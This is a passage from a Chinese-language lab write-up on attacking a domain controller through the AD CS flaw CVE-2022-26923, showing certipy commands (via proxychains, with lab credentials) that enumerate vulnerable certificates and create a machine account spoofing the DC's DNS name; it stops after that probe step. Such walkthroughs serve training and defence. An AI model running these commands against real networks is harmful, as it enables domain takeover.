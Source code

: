 ## 攻击域控 (CVE-2022–26923)

### 信息搜集

靶场提示`AD-CS`，使用`certipy`查找相关证书漏洞。

```bash
proxychains certipy find -u 'lixiuying@xiaorang.lab'  -password 'winniethepooh' -dc-ip 172.22.15.13 -vulnerable -stdout
```

不过我这里没出现具体漏洞，存在一些问题

[![](assets/1707954847-10f2fd31d17e413cecf86087430c78d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165517-f2436502-c728-1.png)

做完想来应该是没有在`etc/hosts`中添加`XR-CA.xiaorang.lab`的`对应IP地址`，导致无法找到它这个主机。

当时在这里卡住了，参考[https://fushuling.com/index.php/2023/09/17/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83%c2%b7%e7%bd%91%e9%bc%8e%e6%9d%af%e5%8d%8a%e5%86%b3%e8%b5%9b%e6%b2%a1%e6%89%93%e5%ae%8c/](https://fushuling.com/index.php/2023/09/17/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83%c2%b7%e7%bd%91%e9%bc%8e%e6%9d%af%e5%8d%8a%e5%86%b3%e8%b5%9b%e6%b2%a1%e6%89%93%e5%ae%8c/)

### 漏洞探测

首先添加用户，如果能够添加成功就说明漏洞存在，使用工具链接[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

```bash
proxychains certipy account create -user 'TEST2$' -pass 'P@ssw0rd' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
```

[![](assets/1707954847-dda56c2a000a4bded1a33e75bb0711bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165524-f692f2c6-c728-1.png)
